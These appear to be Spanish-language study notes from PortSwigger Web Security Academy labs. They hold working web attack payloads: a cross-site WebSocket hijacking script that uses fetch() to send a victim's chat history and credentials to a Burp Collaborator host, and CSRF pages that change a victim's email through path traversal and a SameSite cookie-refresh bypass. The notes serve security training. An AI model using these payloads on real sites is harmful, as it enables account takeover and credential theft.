 ```js
document.location = "https://ID-LAB.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=test%40normal-user.net%26submit=1";
	</script>

//LAB: CSWH - SameSite strict bypass via Sibling Domain: STAGE 1/2
	//GET /resources/js/chat.js HTTP/2 //contiene un Access-Control-Allow-Origin, con un sibling domain: 
	//https://cms.ID-LAB-web-security-academy.com > tiene un POST /login
	//XSS En param Body: username=<scri..>alert(1)</scri...>&password=...
	<script>
    var ws = new WebSocket('wss://ID-LAB.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://BURP-COLLAB.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
	</script>
	//TODO ESE PAYLOAD encoded a URL en el param body username.
	//Asi podemos exfiltrar el historial y creds del user victim.
	//ya luego es cuestión de tomar ese endpoint y hacer un CSRF PoC y enviarselo a la victima, y a nuestro COLLAB nos llegará el historial con la credencial de carlos. 


//LAB: CSRF SameSite=Lax Bypass via Cookie Refresh - STAGE 1,2 `social-login`
	//Endoint de change-email claro. tal como dice el csrf poc de abajo->
/*
> Observa si visitas /social-login, esto inicia automáticamente el flujo OAuth completo. Si todavía tienes una sesión iniciada con el servidor OAuth, todo esto sucede sin ninguna interacción., y en el historial del proxy, observa que cada vez que completas el flujo OAuth, el sitio objetivo establece una nueva cookie de sesión, incluso si ya habías iniciado sesión.
> Elude el bloqueador de ventanas emergentes, para inducir a la víctima a hacer clic en la página y sólo abre la ventana emergente una vez que la víctima ha hecho clic, con el siguiente JavaScript. El código JavaScript del exploit primero refresca la sesión de la víctima forzando a su navegador a visitar /social-login, y luego envía la solicitud de cambio de correo electrónico tras una breve pausa. Entrega el exploit a la víctima.
> REALMENTE EL EMAIL LO PODEMOS DEJAR POR EL EMAIL CLIENT DEL EXPLOIT SERVER PARA UN ATAQUE REAL EN EL EXAM BSCP!!!!
*/
<form method="POST" action="https://ID-LAB.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned2@portswigger.net">
</form>
<p>Click Me!</p>
<script>
    window.onclick = () => {
        window.open('https://ID-LAB.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
	//Super important cambiar el *correo* por uno nuevo para que el ataque pueda darse
	//Cuando hagamos clic en algún lugar de la página de exploits, abrirá otra ventana a /social-login, esto asignará una nueva cookie de sesión, que nos permite tener 120 segundos para enviar una solicitud POST para actualizar la dirección de correo electrónico.
	

//LAB: CSRF where <meta> Referer validation depends on header being present
* Si el stage 1 del examen no fue un exploit interactivo, seguramente el stage 2 si lo sea, y podemos usar este para tomar acceso administrativo simplemente enviandoselo a la victima admin. ->
	//Algunas apps usan header referer como defensa->CSRF, pero una mierda es.
```

  [param]: html